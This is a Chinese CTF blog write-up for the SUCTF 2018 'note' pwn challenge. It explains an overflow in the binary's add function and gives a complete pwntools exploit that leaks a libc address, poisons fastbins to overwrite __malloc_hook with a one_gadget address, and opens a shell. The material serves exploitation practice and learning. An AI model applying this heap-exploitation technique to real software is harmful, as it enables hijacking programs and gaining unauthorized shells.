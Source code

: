 
title: suctf-2018-note

date: 2018-06-23 20:09:43

categories:
- CTF
- malloc-hook


## 检测开启保护

[题目下载](note.zip)

![img-1](img-1.png)



## 逆向分析

可以发现add功能中有明显的溢出， box功能可以free chunk ， 然后会被合并到

![img-2](img-2.png)

![img-3](img-3.png)



## 完整EXP

思路比较简单，就是讲`malloc_hook`链入到fastbins，分配写入`/bin/sh`地址。

- one 就是 one_gadget 得到shell地址
- libc.address = 地址的获得，就是使用
  - 0x00007f91d701cb58  泄漏地址
  - 0x00007f91d6c5d000  so基地址
  - 偏移0x3bfb58 = 泄漏地址 - so基地址
  - so基地址 = 泄露地址 - 偏移0x3bfb58

```python
from pwn import *
# p = process('./note',env= {"LD_PRELOAD":"./libc6_2.24-12ubuntu1_amd64.so"})
p = process('./note',env= {"LD_PRELOAD":"/lib/x86_64-linux-gnu/libc.so.6"})
#libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
libc = ELF('./libc6_2.24-12ubuntu1_amd64.so')
def add(size,con):
    p.sendlineafter(">>",'1')
    p.sendlineafter('Size:',str(size))
    p.sendlineafter('Content:',con)

def show(idx):
    p.sendlineafter("Choice>>",'2')
    p.sendlineafter('Index:',str(idx))
    p.recvuntil('Content:')
    data = p.recvn(6)
    return data

def pwn():
    add(120,'A'*8)
    add(0xdc0,'d'*0xdc0+ 'A'*8+p64(0x91))
    add(0xa0,'c')
    p.sendlineafter("Choice>>",'3')
    p.sendlineafter(':1)','1')
    data = show(0)
    libc.address = u64(data.ljust(8,'\x00')) -0x3bfb58# 0x3c4b78
    success("libc is " + hex(libc.address))
    gdb.attach(p)
    payload = 'A'*0xf68+p64(0x71) + p64(libc.symbols['__malloc_hook']-19-0x10)
    one = libc.address + 0xf241b
    success("one is "+hex(one))
    # gdb.attach(p)

    add(0x110,payload)
    gdb.attach(p)
    add(0x60,'c')
    add(0x60,'c'*19+p64(one))
    p.interactive()
pwn()
```

不知道pwn()函数全三全是什么埋坑。

add(120,'A'*8) 

add(0xdc0, 'd'\*0xdc0+ 'A'\*8+p64(0x91)) 

add(0xa0,'c')

## 参考

[SUCTF 2018部分PWN题复现](http://p4nda.top/2018/05/29/suctf2018/)

[suctf的两道pwn——Heap和Note](https://arisxu.github.io/2018/06/03/suctf/)

[腹黑‘s blog SUCTF WriteUp By W&P](http://www.lovei.org/archives/suctf2018.html)

